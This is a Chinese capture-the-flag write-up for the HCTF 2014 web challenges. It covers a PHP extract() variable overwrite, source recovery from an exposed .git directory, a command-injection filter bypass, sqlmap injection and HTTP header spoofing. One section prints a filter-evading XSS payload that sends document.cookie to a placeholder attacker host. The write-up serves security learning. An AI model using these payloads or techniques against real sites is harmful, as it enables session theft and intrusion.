 # HCTF writeup(web)

2014/11/29 16:47 | [蓝冰](http://drops.wooyun.org/author/蓝冰 "由 蓝冰 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

**丘比龙的最爱 10pt**

传说，丘比龙是丘比特的弟弟，丘比龙是一只小爱神，虽然有两只翅膀，但因为吃多了，导致身体太胖，所以飞不起来~那么问题来了?!丘比龙吃什么食物吃多了变胖了

很明显了,百度一下答案是甜甜圈

**nvshen 100pt**

猫流大大发现一个女神，你能告诉我女神的名字么（名字即是 flag） 下载 zip 后是一个疑似 base64 的密文,用 base64 解密后发现 png 图片头 后缀改为 png

![enter image description here](img/img1_u174_png.jpg)

图片放到百度识图 得到名字

```
flag:爱新觉罗启星 
```

**GIFT 100pt**

打开网站 在注释处发现一个文件 index.php.bak 内容为

```
<?php
$flag=‘xxx';
extract($_GET);
if(isset($gift))
{
$content=trim(file_get_contents($flag));
if($gift==$content)
{
echo’hctf{...}';
}
else
{
echo’Oh..';
}
}
?> 
```

构造如下 URL:

```
http://121.40.86.166:39099/index.php?gift=&flag= 
```

覆盖掉 flag 变量

```
flag: hctf{Awe3ome_Ex7ract!!!} 
```

**Entry 200pt**

57R9S980RNOS49973S757PQO9S80Q36P 听说丘比龙一口气能吃”13”个甜甜圈呢!

刚开始各种进制转换,后来注意道 13 这个数字,刚好密文处是 13 个字母,于是把字母转成 ASCII 然后加 13 后转字符,然后插到原来的位置,最后 cmd5 解密

```
flag: Qoobee 
```

**FIND 200pt**

把图片下载下来用 Stegsolve 神器在随机图层发现二维码,把二维码修复一下 白色的改成黑色的 黑色的改成白色的 然后扫一下就出来 flag 了

![enter image description here](img/img2_u111_png.jpg)

**flag{hctf_3xF$235#\x5e3}**

**IRC 300pt**

进入官方 IRC 频道,挨个找人 whois

命令 /whois xxx(昵称) 其中有几个人反弹了 flag 提交几个后终于正确了

![enter image description here](img/img3_u101_png.jpg)

**opensource 300pt**

开源？闭源？

在 robots.txt 文件下发现 .git 隐藏目录 根据 git 说明 得到分支文件

```
refs/heads/master 
```

下载后得到 hash 值 e52b59bc730f13d999b1f2452ca3f689850ca0a3

然后进入 e5/目录访问 2b59bc730f13d999b1f2452ca3f689850ca0a3 文件 hash 前二位目录 后 32 位文件名 详情可以去百度看一下 git 的目录结构 依此类推 配合 (git cat-file -p 接 40 位 hash )命令 读取项目文件 是当前网站的源代码 node.js

部分代码:

```
// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'jade');

app.use(favicon());
app.use(logger('dev'));
app.use(bodyParser.json());
app.use(bodyParser.urlencoded());
app.use(cookieParser());

app.use('/', routes);
app.use('/ac6555bfe23f5fe7e98fdcc0cd5f2451', pangci);
—————————————————————————————-

var express = require('express');
var router = express.Router();
var fs = require('fs');
var path = require('path');
var cp = require('child_process');

router.get('/', function(req, res) {
  var data = path.normalize('/tmp/flag');

  if (req.param('pangci')) {
    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
      var limit = stdout.split('\n').slice(0, 5).join('\n');
      res.end(limit);
    });
  } else {
    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
} 
```

访问

```
/ac6555bfe23f5fe7e98fdcc0cd5f2451?pangci=wc 
```

返回

```
142   735 11507 /tmp/flag 
```

表示有 142 行

利用 tail -n num 命令 一次读取 5 行

最后进行拼接得到 flag

![enter image description here](img/img4_u90_png.jpg)

**FUCKME 350pt**

打开网页各种语种,想到用词频分析进行解密,利用软件统计频率前 26 个字 用记事本或者脚本替换成 26 个英文字母 然后用下面这个网站进行解密

http://www.quipqiup.com/index.php

```
flag:hctf{enjoyyourselfinhctf} 
```

**jianshu 400pt**

这题有点坑,首先比较轻松的 xss 到了 cookie,

```
<svg><scscriptript>window.locatioonn=“http://xxx.com/cookie.php?cookie=“%26%2343%3Bescape(document.cookie);</scscriptript></svg> 
```

然后 cookie 里确实有 flag flag=NOT IN COOKIE 尝试提交这个不对 然后在 cookie.php 进行修改 获取客户端的 http 头信息

```
Referer: http://121.41.37.11:25045/get.php?user=V1ew
X-Forwarded-For: 218.75.123.186 
```

伪造 http 头访问改 url 还是没有发现 cookie 然后据说不是 xss 是 sql 注入 然后各种参数,各种注

然后最后的注入的点为;

```
http://121.41.37.11:25045/img.php?file=1*.jpg 
```

之前尝试了整个 file 参数发现注不了,其实是要注.jpg 前面的值

```
sqlmap —level 6 —dbs 
```

跑出数据库

![enter image description here](img/img5_u93_png.jpg)

访问

```
http://121.41.37.11:25045/get.php?user=A1rB4s1C 
```

提示 IP 不对 用之前 X 到的 IP 进行伪造 最后返回 flag

```
flag: hctf{Why_are_U_S0_DIA0?????} 
```

![enter image description here](img/img6_u1_png.jpg)

版权声明：未经授权禁止转载 [蓝冰](http://drops.wooyun.org/author/蓝冰 "由 蓝冰 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [DNS 泛解析与内容投毒，XSS 漏洞以及证书验证的那些事](http://drops.wooyun.org/tips/1354)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [360hackgame writeup](http://drops.wooyun.org/tips/1666)
*   [CVE-2014-0038 内核漏洞原理与本地提权利用代码实现分析](http://drops.wooyun.org/papers/3795)
*   [分析下难得一见的 ROR 的 RCE（CVE－2013－0156）](http://drops.wooyun.org/papers/61)